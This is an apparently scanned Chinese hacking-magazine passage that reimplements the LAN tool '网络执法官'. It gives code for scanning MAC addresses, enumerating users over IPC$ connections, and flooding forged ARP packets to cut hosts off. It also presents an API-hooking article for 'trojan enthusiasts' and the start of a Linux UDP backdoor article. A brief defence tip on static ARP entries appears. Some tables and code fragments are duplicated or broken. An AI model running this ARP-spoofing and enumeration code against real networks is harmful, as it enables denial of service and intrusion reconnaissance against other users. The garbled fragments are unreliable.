网络执法官显示的 CPU 占用率是整个系统的占用率（与 Windows 任务管理器显示的是一样的），而非单指本软件的占用。该软件在刚启动时，占用 CPU 资源相当多，当扫描范围较大时更为明显。笔者经过查询，从网上找到了实现该技术的一些关键资料，即获得 CPU 使用率的实现可以用到 NtQuerySystemInformation() 这个未文档化的函数，原型如下：

```c
NTSTATUS NtQuerySystemInformation(
    SYSTEM_INFORMATION_CLASS SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);
```

我们首先要利用此函数通过 SYSTEM_BASIC_INFORMATION 结构获得 CPU 处理器的个数：  
NtQuerySystemInformation(SystemBasicInformation, &SysBaseInfo, sizeof(SysBaseInfo), NULL)；  
然后通过 SYSTEM_TIME_INFORMATION 结构获得新的系统时间：  
NtQuerySystemInformation(SystemTimeInformation, &SysTimeInfo, sizeof(SysTimeInfo), 0)；  
再通过 SYSTEM_PERFORMANCE_INFORMATION 结构获得 CPU 空闲时间：  
NtQuerySystemInformation(SystemPerformanceInformation, &SysPerfInfo, sizeof(SysPerfInfo), NULL)。  
根据下面的算法：

```c
if (liOldIdleTime.QuadPart != 0) {
    dbIdleTime = Li2Double(SysPerfInfo.liIdleTime) - Li2Double(liOldIdleTime);
    dbSystemTime = Li2Double(SysTimeInfo.liKeSystemTime) - Li2Double(liOldSystemTime);
    dbIdleTime = dbIdleTime / dbSystemTime;
}
```

```cpp
// 当前CPU使用率%=100-(当前空闲时间*100)/CPU处理器个数
_dIdleTime = 100.0 - _dIdleTime * 1000.0 / (double)SysBaseInfo.bKeNumberProcessors * 0.5;
...
printf("\b\b\b\b%3d%%", (UINT)_dIdleTime);
...
// 存储新的CPU空闲时间和系统时间
iOldIdleTime = SysPerfInfo.liIdleTime;
iOldSystemTime = SysTimeInfo.liKeSystemTime;
// 每一秒刷新一次
Sleep(1000);
```

其中，上面的 `Li2Double()` 是一个宏，定义如下：

```cpp
#define Li2Double(x) ((double)((x).HighPart) * 4.294967296E9 + (double)((x).LowPart))
```

- 1. 网上的网络执法官几乎都是试用版，好像找不到破解版和注册版，试用版的功能和使用都有限制……
- 2. 在安装网络执法官之前必须安装 WinPcap 3.0 以上版本驱动库，所以网络执法官的大多数功能应该都是基于 WinPcap 设计的。
- 3. 局域网内 MAC 地址获取及 ARP 欺骗技术本文并没涉及，我们将在《网络执法官核心技术初探（下）》中进行深入讨论。

适合读者：程序员，系统安全研究者  
前置知识：C/C++ 基础。

## 网络执法官
### 核心技术初探（下）

文/图 四川大学信息安全研究所 古开元


我们在上一期着重介绍了网络执法官中本机网卡参数、当前连接（TCP/UDP）状态和 CPU 使用率三个技术的实现。在这一期，我们接着上一期的步伐继续前进，学习网络执法官最为重要的其它几个核心技术的实现，界面如图 1 所示。（以下程序在 Windows XP SP1 + VC7 下编译测试通过。）

所有存活主机的 MAC 地址探测获取及主机信息的获取，和网络执法官的 ARP Spoof（欺骗）技术。

##### 技术实现四：探测存活 MAC 地址

该技术主要涉及到了一个 Iphlpapi 的库函数 `SendARP()`；该函数的 MSDN 描述如下：

```cpp
DWORD SendARP(
  IPAddr DestIP,      // 目标IP地址
  IPAddr SrcIP,       // 源IP地址
  PULONG pMacAddr,    // MAC地址
  PULONG PhyAddrLen   // MAC地址长度
);
```

该函数在 VC6 的 SDK 上不支持，而且系统版本要在 Windows 2000 以上……有了 `SendARP()` 这个函数后，我们的工作很 Easy，遍历扫描整个局域网就 OK 了，实现源代码如下：



图 1

网络执法官会在用户列表里显示本地局域网内所有主机的网卡地址、是否上线、IP 地址、域、主机及用户名、上线下线时间和网卡注释。当然，我们不会讨论诸如上下线及注释之类的问题，本文将着重讲述局域网内……

```cpp
#include <windows.h>
#include <stdio.h>
#include <tchar.h>
#include <iphlpapi.h>
#pragma comment(lib, "ws2_32.lib")
#pragma comment(lib, "iphlpapi.lib")
int _tmain(int argc, TCHAR* argv[])
```

```cpp
HRESULT hr;
IPAddr ipAddr;
ULONG pulMac[2];
ULONG ulLen;
char ip[20] = {0};
for (int xx=0; xx<254; xx++) {
  sprintf(ip, "192.168.3.%d", xx+1);
  ipAddr = inet_addr(ip);
  memset(pulMac, 0xff, sizeof(pulMac));
  ulLen = 6;
  hr = SendARP(ipAddr, 0, pulMac, &ulLen);
  if (hr != NO_ERROR) continue;
  printf("IP: %s\n", ip);
  char *szMac = new char[ulLen*3];
  PBYTE pbHexMac = (PBYTE)pulMac;
  size_t i, j;
  for (i=0, j=0; i<ulLen-1; ++i)
    j += sprintf(szMac+j, "%02X:", pbHexMac[i]);
  sprintf(szMac+j, "%02X", pbHexMac[i]);
  printf("MAC: %s\n", szMac);
  delete [] szMac;
}
return 0;
```

代码的注释一目了然，编译后运行效果如图 2 所示。是不是没你想象中那么复杂呢？



图 2

##### 技术实现五：获取局域网内主机用户列表

获取远程主机用户列表不算是很新的技术，可以利用探测 NetBIOS 的技术实现，最主要的 API 函数是 NetQueryDisplayInformation()，该函数的 MSDN 描述如下：

```cpp
NET_API_STATUS NetQueryDisplayInformation(
  LPCWSTR ServerName,
  DWORD Level,
  DWORD Index,
  DWORD EntriesRequested,
  DWORD PreferredMaximumLength,
  LPDWORD ReturnedEntryCount,
  PVOID* SortedBuffer
);
```

我给出的实现源代码截取了工具的 SMB 源代码，代码片段如下：

```cpp
NETRESOURCE nr;
DWORD ret;
TCHAR username[100]=T("...");
TCHAR password[100]=T("...");
TCHAR ipc[100]=T("...");
swprintf(ipc, T("\\\\%s\\ipc$"), argv[1]);
nr.lpLocalName=NULL;
nr.lpProvider=NULL;
nr.dwType=RESOURCETYPE_ANY;
nr.lpRemoteName=ipc;
ret=WNetAddConnection2(&nr, username, password, 0);
users(argv[1]);
ret=WNetCancelConnection2(ipc, 0, TRUE);
```

可以看到，我把获得用户信息的函数封装在了 users() 里，该函数的实现如下：

```cpp
int users(PTSTR server) {
  PNET_DISPLAY_USER pBuf, pBuffer;
  DWORD nStatus, dwRec, i=0, lerror, dwLevel;
  dwLevel=1;
  _tprintf(T("\n******Users******\n"));
  do {
    nStatus=NetQueryDisplayInformation(server, dwLevel, i, 100,
             0xFFFFFFFF, &dwRec, (PVOID*)&pBuf);
    if ((nStatus==ERROR_SUCCESS) || (nStatus==ERROR_MORE_DATA)) {
      pBuffer=pBuf;
      for (; dwRec>0; dwRec--) {
        _tprintf(T("\nName:\t%s"), pBuffer->usri1_name);
        _tprintf(T("\nFull Name:\t%s"), pBuffer->usri1_full_name);
        _tprintf(T("\nUser ID:\t%u"), pBuffer->usri1_user_id);
        _tprintf(T("\nComment:\t%s"), pBuffer->usri1_comment);
        i=pBuffer->usri1_next_index;
        pBuffer++;
      }
    }
  } while (nStatus==ERROR_MORE_DATA);
}
```

```cpp
NET_API_STATUS NetQueryDisplayInformation(...)
LPCWSTR ServerName // 选择主机 DNS 或 NETBIOS 名
```

```c
else // 出错了
{
    lerror = GetLastError();
    _tprintf(_T("\nUsers Error:\t%d\n"), lerror);
    if (pBuf != NULL)
        NetApiBufferFree(pBuf); // 一定记得释放系统分配的资源
}
while (nStatus == ERROR_MORE_DATA);
return 0;
```

选取局域网内 192.168.3.10 主机进行测试，程序运行结果如图3所示。

如果你是《黑防》忠实读者，可以复习一下我在2005年第11期里的另一篇文章《ARP Spoof&DoS攻击编程实战》，实现的原理及技术甚至代码都几乎一样。我们先来看看 ARP Spoof 攻击原理，如图5、图6所示。

攻击者ARP表：

| IP地址 | MAC地址 |
|---|---|
| 主机A | 主机B |
| 主机B | 主机B |

下方两表（主机A/主机B ARP表）展示被投毒前后映射变化，含“正常连接”箭头。




利用 NetBIOS，读者们还可以获得更多更有用的信息，感兴趣的读者不妨在网上下载 Too2y 师兄关于这方面的源代码，很有学习和参考价值！

攻击者ARP表：

| IP地址 | MAC地址 |
|---|---|
| 主机A | 主机B |
| 主机B | 主机B |

下方主机A/主机B ARP表中出现“攻击者”“伪造MAC”等项，展示欺骗后状态。



## 技术实现之ARP Spoof技术

网络执法官最出众的功能就是它的网络管理功能。选中某台活动主机，右键→设置用户权限，就可以看到图4的对话框。

从这两张图中，可以大致了解 ARP Spoof 的一些主要思想，下面是核心代码：

- 小提示：本代码用到了 WinPcap，所以你必须首先安装 winpcap3.0 以上版本驱动库。



我们下面来实现图4框中的3个管理功能，这也是校园网内的 DDMM 们最喜欢的；因为依靠这两个功能，我们可以轻易“抢”IP了哦。

```c
// 定义些变量
pcap_t *fp;
unsigned char buff[BUFSIZ], mac[ETHERLEN+1];
int i, tmps;
DWORD ip_add, ip_dst;
EHHDR *ether;
ARPHDR *arphdr;
WSADATA wsaData;   // 获得目标IP
WSAStartup(MAKEWORD(2, 2), &wsaData);
ip_add = ResolveAddr(argv[1]); // 攻击目标
ip_dst = ResolveAddr(argv[2]); // 伪地址
WSACleanup();
fp = GetInterface();
ether = (PEHHDR)buff;
arphdr = (PARPHDR)(buff+ETHSIZE);
srand(time(NULL));
sprintf((char*)mac, "%c%c%c%c%c%c", rand(), rand(), rand(), rand(), rand(), rand());
mac[ETHERLEN]=0x00;
memcpy(ether->eh_dst, DEST, ETHERLEN);
memcpy(ether->eh_src, mac, ETHERLEN);
ether->eh_type = htons(ETHERTYPE_ARP);
arphdr->arp_hrd = htons(ARPHRD_ETHER);
arphdr->arp_pro = htons(ETHERTYPE_IP);
arphdr->arp_hln = ETHERLEN;
arphdr->arp_pln = PROTOLEN;
arphdr->arp_op  = htons(ARPOP_REQUEST);
memcpy(arphdr->arp_sha, mac, ETHERLEN);
arphdr->arp_spa = ip_add;
memcpy(arphdr->arp_tha, SOURCE, ETHERLEN);
arphdr->arp_tpa = ip_dst; // 欺骗攻击进一步
while(1) {
    if(pcap_sendpacket(fp, buff, sizeof(buff)) < 0) {
        printf("\nError: problems for sending packet\n");
        exit(1);
    }
    printf(".");
    Sleep(DELAY);
}
```

## 琳琅集合：内核API拦截技术

- 适合读者：黑客程序员，木马爱好者
- 前置知识：C/C++基础



API拦截并不是一个新的技术，很多商业软件都采用这种技术。对 Windows 的 API 函数的拦截，不外乎两种方法。第一种是修改 exe 文件模块输入节的方法，这种方法很安全但很复杂，而且有些 exe 文件没有 DLL 的输入符号列表，可能出现拦截不到的情况。第二种方法就是常用的 JMP XXX 方法，虽然很古老，却很简单实用。

本文介绍第二种方法在 Windows 2000 下的使用。Windows 98/Me 下进入 Ring0 级的方法很多，但在 Windows 2000 下这些方法都不能用。Windows 2000 为我们提供了强大的内存 API 操作函数：VirtualProtectEx、WriteProcessMemory、ReadProcessMemory。有了它们，我们就能在内存中动态修改代码了，其原型为：

```c
BOOL VirtualProtectEx(
    HANDLE hProcess,      // 要修改内存的进程句柄
    LPVOID lpAddress,     // 要修改内存的起始地址
    DWORD  dwSize,        // 修改内存的字节数
    DWORD  flNewProtect   // 修改后的内存属性
);
```

```c
PDWORD lpflOldProtect;   // 修改前的内存属性地址

BOOL WriteProcessMemory(
    HANDLE hProcess,      // 要写进程的句柄
    LPVOID lpBaseAddress, // 写内存的起始地址
    LPVOID lpBuffer,      // 写入数据的地址
    DWORD nSize,          // 要写的字节数
    LPDWORD lpNumberOfBytesWritten // 实际写入字节数
);

BOOL ReadProcessMemory(
    HANDLE hProcess,      // 要读进程的句柄
    LPVOID lpBaseAddress, // 读内存的起始地址
    LPVOID lpBuffer,      // 读入数据的地址
    DWORD nSize,          // 要读入的字节数
    LPDWORD lpNumberOfBytesRead // 实际读入字节数
);
```

具体的参数请参看 MSDN 帮助。在 Windows 2000 下 DLL 和所属进程在同一地址空间，这点又和 Windows 9x/Me 存在所有进程共享地址空间不同。因此，必须通过钩子函数和远程注入进程的方法。现以一个简单采用钩子函数对 MessageBoxA 进行拦截的例子说明。

子来说，其中 DLL 文件为：

```cpp
HHOOK g_hHook;
HINSTANCE g_hinstDll;
FARPROC pfMessageBoxA;
int WINAPI MyMessageBoxA(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);
BYTE OldMessageBoxACode[5], NewMessageBoxACode[5];
HMODULE hModule;
DWORD dwIdOld, dwIdNew;
BOOL bHook=false;
void HookOn();
void HookOff();
BOOL init();

LRESULT WINAPI MousHook(int nCode, WPARAM wParam, LPARAM lParam);

BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        if(!init()) {
            MessageBoxA(NULL,"init","ERROR",MB_OK);
            return(false);
        }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        if(bHook) UninstallHook();
        break;
    }
    return TRUE;
}

LRESULT WINAPI Hook(int nCode,WPARAM wParam,LPARAM lParam)
{
    return(CallNextHookEx(g_hHook,nCode,wParam,lParam));
}

HOOKAPI2_API BOOL InstallHook()
{
    g_hinstDll=LoadLibrary("HookAPI2.dll");
    g_hHook=SetWindowsHookEx(WH_GETMESSAGE,(HOOKPROC)Hook,g_hinstDll,0);
    if(!g_hHook) {
        MessageBoxA(NULL,"SET ERROR","ERROR",MB_OK);
        return(false);
    }
    return(true);
}

HOOKAPI2_API BOOL UninstallHook()
{
    return(UnhookWindowsHookEx(g_hHook));
}

BOOL init()
{
    // 初始化得到MessageBoxA的地址, 并生成Jmp XXX(MyMessageBoxA)的跳转指令
}
```

```cpp
hModule=LoadLibrary("user32.dll");
pfMessageBoxA=GetProcAddress(hModule,"MessageBoxA");
if(pfMessageBoxA==NULL)
    return false;

_asm {
    lea edi,OldMessageBoxACode
    mov esi,pfMessageBoxA
    cld
    movsd
    movsb
}

NewMessageBoxACode[0]=0xe9; // jmp MyMessageBoxA 的相对地址指令

_asm {
    lea eax,MyMessageBoxA
    mov ebx,pfMessageBoxA
    sub eax,ebx
    sub eax,5
    mov dword ptr [NewMessageBoxACode+1],eax
}

dwIdNew=GetCurrentProcessId();
dwIdOld=dwIdNew;
HookOn(); // 开始挂载
return(true);

int WINAPI MyMessageBoxA(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType)
{
    int nReturn=0;
    HookOff();
    nReturn=MessageBoxA(hWnd,"Hook",lpCaption,uType);
    HookOn();
    return(nReturn);
}

void HookOn()
{
    HANDLE hProc;
    dwIdOld=dwIdNew;
    hProc=OpenProcess(PROCESS_ALL_ACCESS,0,dwIdOld);
    VirtualProtectEx(hProc,pfMessageBoxA,5,PAGE_READWRITE,&dwIdOld);
    WriteProcessMemory(hProc,pfMessageBoxA,NewMessageBoxACode,5,0);
    VirtualProtectEx(hProc,pfMessageBoxA,5,dwIdOld,&dwIdOld);
    bHook=true;
}

void HookOff()
{
    HANDLE hProc;
    dwIdOld=dwIdNew;
    hProc=OpenProcess(PROCESS_ALL_ACCESS,0,dwIdOld);
    VirtualProtectEx(hProc,pfMessageBoxA,5,PAGE_READWRITE,&dwIdOld);
    WriteProcessMemory(hProc,pfMessageBoxA,OldMessageBoxACode,5,0);
    VirtualProtectEx(hProc,pfMessageBoxA,5,dwIdOld,&dwIdOld);
    bHook=false;
}
```

```cpp
MessageBoxA(NULL,"Hook Error!","Hook",MB_OK);
return 1;
}
MessageBoxA(NULL,"TEST","TEST",MB_OK);
```

可以看见 TEST 变成了 Hook，也可以在其他进程中看见。

下面测试文件：

```cpp
int APIENTRY WinMain(HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    LPSTR lpCmdLine,
    int nCmdShow)
{
    if(InstallHook()) {
        ...
    }
}
```

```cpp
if(UninstallHook()) {
    MessageBoxA(NULL,"Uninstall Error!","Hook",MB_OK);
    return 1;
}
return 0;
}
```

本文撰写时间仓促，难免有误，希望各位不吝赐教！

##### 防范网络执法官攻击

有很多读者说，我才不要学网络执法官的实现原理呢，你告诉我怎么防范被网络执法官攻击才是硬道理。其实，知己知彼，方能百战百胜。通过上面的学习，我们知道 ARP 欺骗是发送给某台电脑有关假的网关 IP 地址所对应的 MAC 地址，使其找不到网关真正的 MAC 地址。因此，只要我们修改 IP 到 MAC 的映射就可以使 ARP 欺骗失效，突破它的限制。你可以先 Ping 一下网关，然后再用“ARP -a”命令得到网关的 MAC 地址，最后用“ARP -s IP 网卡 MAC 地址”命令把网关的 IP 地址和它的 MAC 地址映射起来就可以了。当然，还有其他办法，这里不多说了。

```
如果要实现图4中的IP冲突功能，该程序的使用如下：

ArpSpoof.exe + <目标IP> + <任一IP>
如果要实现第一个“禁止与关键主机的TCP/IP连接”，则
ArpSpoof.exe + <目标IP> + <关键主机IP>
如果要实现第三个“禁止与所有主机的TCP/IP连接”，则
ArpSpoof.exe + <目标IP> + <网关>
```

##### 小结

到此，整个网络执法官的核心技术都一一剖析并给出了实现方法。所有实现都从功能上力求做出等效效果，可能很多地方并不如我所说那样完美，文中肯定也存在很多问题，希望大家给予批评指正！

Socket：Windows 下的网络编程文章《黑防》有很多，关于后门和木马、扫描器之类的文章更是多多。但是 Linux 下的 Socket 编程文章就比较少了，以下这篇文章从原理开始介绍，深入浅出地叙述了 Linux 系统下的一个套接口木马的详细编写方法。

- 适合读者：程序员，Linux 爱好者
- 前置知识：C/C++基础

## Linux下UDP后门的Socket编程

文/图 吴贤


##### 简介

Socket 适用于网络环境中的进程间通信，它已成为当前许多操作系统的网络 API，也是网络操作系统中必不可少的基础功能。尽管 UDP 无法像 TCP 一样提供可靠的数据传输，但 UDP 并不比 TCP 缺乏优越性。随着 Linux 操作系统和 Internet 的不断发展，Linux 网络环境下尤其是基于 UDP 的 Socket 通信技术被广为关注。本文介绍了 Linux 平台下的 Socket 及其编程原理，并通过一个 Java 编写的基于 UDP 的客户/服务器程序，描述了网络中不同主机上的两个进程之间的 Socket 通信机制。

Linux 是一个诞生于 Internet 和 WWW 的产品，它和网络密切相关。Linux 网络系统具有稳定、简易、高效、兼容性好等特点，并且支持多种网络协议，如 IPv4、IPv6、X.25、IPX、NETBIOS、DDP 等。套接字（Socket）是介于网络应用层和传输层之间的编程接口，套接字接口提供了访问下层通信协议的大量系统调用和相应的数据结构，进程在 Linux 上的网络通信过程就是使用套接字传输数据的过程。套接字在 UDP/IP 网络模型中的地位如图1所示。

